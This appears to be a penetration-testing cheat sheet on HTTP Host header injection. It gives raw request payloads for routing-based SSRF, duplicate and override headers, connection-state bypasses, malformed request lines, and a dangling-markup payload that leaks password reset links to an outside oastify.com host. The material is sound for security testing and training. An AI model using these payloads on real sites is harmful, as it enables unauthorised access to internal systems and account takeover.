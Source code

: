# What can we do via Host Header injection?
```txt
    1. Password Reset Poisoning
    2. Routing Based SSRF
```
# How to test?
___
## Supply an arbitrary Host header. If vulnerable, this will generate 200 OK response or 504 server gateway error.
```txt
GET /example HTTP/1.1
Host: google.com
```
## Accessing restricted functionality or Routing Based SSRF
#### It is common for websites to not restrict access to certain functionality for internal users only or host private sites in same server. Try to access it by localhost or brute-forcing.
```txt
Host: localhost
Host: 127.0.0.1
Host: 192.168.0.$fuzz$
```
## Send ambiguous requests
#### Inject duplicate Host headers
```txt
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: google.com
```
#### Add line wrapping
```txt
GET /example HTTP/1.1
    Host: google.com
Host: vulnerable-website.com
```
#### Supply an absolute URL
##### Normal case
```txt
GET https://vulnerable-website.com/ HTTP/1.1
Host: google.com
```
##### SSRF via flawed request parsing
```txt
GET https://0ada009a03fb929382cd2e7000e600be.web-security-academy.net HTTP/2
Host: ybdifpxyiesrimyyvm2e9wxgy74yssgh.oastify.com
```
In this case, now try bruteforcing ip address.
#### Inject host override headers
```txt
X-Forwarded-Host:
X-Host:
X-Original-URL:
X-Forwarded-Server:
X-HTTP-Host-Override:
Forwarded:
X-Forwarded-For:
```
Note: In Burp Suite, you can use the Param Miner extension's "Guess headers" function to automatically probe for supported headers using its extensive built-in wordlist.
## Connection state attacks
#### For performance reasons, many websites reuse connections for multiple request/response cycles with the same client. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection. 

Step 1 >> Duplicate a request.
Step 2 >> Change the Connection header to keep-alive in 1st request.
Step 3 >> Change the request method GET to POST in 2nd request.
Step 4 >> Mention the administrator path and change the host to local ip in 2nd request.
```txt
POST /admin HTTP/1.1
Host: 192.168.0.1 
```
## SSRF via a malformed request line
####  A reverse proxy might take the path from the request line, prefix it with http://backend-server, and route the request to that upstream URL. If the path starts with @ instead of /, the resulting upstream URL will be http://backend-server@private-intranet/example, which most HTTP libraries interpret as a request to access private-intranet with the username backend-server. So try to use @ instead of /
```txt
GET @private-intranet/example HTTP/1.1
```
## Check for flawed validation (Check portswigger for more)
#### Instead of receiving an "Invalid Host header" response, you might find that your request is blocked as a result of some kind of security measure. If this happen, try to use port or non numeric staff in port. (You can use this method for password reset link hijacking via dangling markup) 
```txt
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
Host: vulnweb.com:'<a href="//8jsdeu8fe6r8ju28t0lsplhjhan1bvzk.oastify.com/? (Password reset link hijacking via dangling markup)
```
